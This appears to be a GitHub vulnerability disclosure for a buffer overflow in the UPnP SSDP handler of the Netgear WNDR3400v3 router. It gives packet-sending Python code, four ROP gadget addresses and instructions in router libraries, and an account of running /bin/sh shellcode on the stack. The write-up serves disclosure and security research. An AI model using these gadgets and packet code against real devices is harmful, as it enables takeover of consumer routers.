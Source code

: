 # Netgear (WNDR3400v3) Buffer Overflow Via UPnP SSDP #

**Vendor**：Netgear

**Product**: N600 WiFi Dual Band Router (WNDR3400v3)

**Firmware Version**: V1.0.1.18_1.0.63

**Vendor Homepage**: https://www.netgear.com/default.aspx

**CVE**: Pending

**NVD**: Pending

**PoC Script**: [netgear_upnp_poc.py](https://github.com/reevesrs24/CVE/blob/master/Netgear_WNDR2400v3/upnp_stack_overflow/netgear_upnp_poc.py)
## Vulnerability detail ##

1. There exists a buffer overflow in the ssdp_http_method_check function in the upnpd binary.
![alt text](screenshots/ghidra_upnp.png)

2. Sending a crafted UPnP SSDP packet allows for the $ra register to be overwritten.
```python
    ### UPnP Architecture Specs ###
    # M-SEARCH - Method for search requests
    # HOST - Multicast channed and port reserved for SSDP
    # MAN - Required by HTTP Exension Framework, defines the scope (namespace) of the extension
    # MX - MAximum wait time in seconds
    # ST: Required search target, pre defined values
    SSDP = arbitrary_string

    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.settimeout(5)
    s.sendto(SSDP, ('239.255.255.250', 1900) )
    s.close()
```
3.  While the stack is executable it does however employ ASLR. 
![alt text](screenshots/memory_map.png)
4. A ROP chain can be used to execute shellcode on the stack.  Several libraries such as libc.so.0, libnat.so and libcrypt.so.0 
have static address spaces which can be used to chain ROP gadgets.
```
ROP Gadget 1
-------------
libnat.so - 0x0000c488 

addiu $a0, $zero, 0xf 
move $t9, $s6 
jalr $t9 
move $a2, $zero 

ROP Gadget 2
-------------
lic.so.0 - 0x00038800

move $t9, $s2 
lw $ra, 0x28($sp)
lw $s3, 0x24($sp) 
lw $s2, 0x20($sp) 
lw $s1, 0x1c($sp) 
lw $s0, 0x18($sp)
jr $t9 
addiu $sp, $sp, 0x30

ROP Gadget 3
-------------
libcrypt.so.0 - 0x0000203c

move $t9, $s2
jalr $t9
addiu $a1, $sp, 0x2

ROP Gadget 4
-------------
lic.so.0 - 0x00032a6c

move $t9, $a1
addiu $a0, $a0, 0x38
jr $t9 
move $a1, $a2
```
5.  This ROP chain can be used to execute shellcode on the stack.  PoC shellcode '/bin/sh' written by Sanguine (https://www.exploit-db.com/exploits/35868)
was used to test this (My shellcode game is weak). Below the [sh] process was executed. Although this process immediately terminates once gdb is exited.    
![alt text](screenshots/sh.png)
